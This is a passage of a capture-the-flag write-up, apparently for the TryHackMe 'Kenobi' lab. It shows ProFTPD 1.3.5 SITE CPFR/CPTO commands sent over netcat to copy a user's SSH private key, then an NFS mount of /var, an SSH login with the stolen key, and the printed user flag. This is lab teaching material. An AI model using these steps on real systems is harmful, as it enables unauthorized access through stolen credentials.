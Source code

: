```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ nc 10.10.157.52 -p 21 ftp
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.157.52]
SITE CPFR /home/kenobi/.ssh//id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

Lets mount the /var/tmp directory to our machine :

<span style="color: rgb(224, 62, 45);">mkdir /mnt/kenobiNFS</span>  
<span style="color: rgb(224, 62, 45);">mount 10.10.157.52:/var /mnt/kenobiNFS</span>  
<span style="color: rgb(224, 62, 45);">ls -la /mnt/kenobiNFS</span>

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ sudo mkdir /mnt/kenobiNFS
[sudo] password di mdn0x: 

┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ sudo mount 10.10.157.52:/var /mnt/kenobiNFS
                                                               
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ ls -la /mnt/kenobiNFS
totale 56
drwxr-xr-x 14 root root  4096  4 set  2019 .
drwxr-xr-x  3 root root  4096 14 lug 17.04 ..
drwxr-xr-x  2 root root  4096  4 set  2019 backups
drwxr-xr-x  9 root root  4096  4 set  2019 cache
drwxrwxrwt  2 root root  4096  4 set  2019 crash
drwxr-xr-x 40 root root  4096  4 set  2019 lib
drwxrwsr-x  2 root staff 4096 12 apr  2016 local
lrwxrwxrwx  1 root root     9  4 set  2019 lock -> /run/lock
drwxrwxr-x 10 root _ssh  4096  4 set  2019 log
drwxrwsr-x  2 root mail  4096 27 feb  2019 mail
drwxr-xr-x  2 root root  4096 27 feb  2019 opt
lrwxrwxrwx  1 root root     4  4 set  2019 run -> /run
drwxr-xr-x  2 root root  4096 30 gen  2019 snap
drwxr-xr-x  5 root root  4096  4 set  2019 spool
drwxrwxrwt  6 root root  4096 14 lug 17.02 tmp
drwxr-xr-x  3 root root  4096  4 set  2019 www
                                                                
```

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ sudo chmod 600 id_rsa      

┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ ssh -i id_rsa kenobi@10.10.157.52

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899

```
